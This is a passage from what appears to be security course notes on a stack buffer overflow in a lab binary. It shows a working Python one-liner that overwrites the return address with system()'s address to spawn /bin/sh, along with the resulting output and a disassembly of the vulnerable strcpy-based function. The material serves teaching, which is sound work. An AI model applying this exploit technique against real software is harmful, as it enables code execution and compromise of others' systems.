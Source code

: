 That's really interesting because those errors have nothing to do with
the program. Notices that the start of the error message refers to "sh"
reporting the error. Essentially, we were successful in getting
`system()` to execute, but the argument to system was not a valid
command. But, what was it?

Look more closely, you'll see it is a bunch of our A's: it's the input
we provided to the program. So we can control what gets called to it,
and the system() command accepts valid bash directives. so we
can do the following:

``` example
user@si485H-base:demo$ ./vulnerable 10 `python -c "import struct; cmd='/bin/sh;';print cmd+'A'*(0x2c+4-len(cmd))+struct.pack('<I',0xf7e261fc)"`
$
```

And, boom shell! 

What we did, is we inserted a "/bin/sh;" at the start
of our input string so that it will execute the shell. But there is
still, a bunch of A's to follow that will cause an error, and exiting the
program does just that:

``` example
$ 
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???: not found
Segmentation fault (core dumped)
```

## Why this worked so easily

In our example, we got really lucky, because we control the argument to
`/bin/sh`. Let's take a look at the disassembly of `vuln`:

``` example
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
=> 0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
```
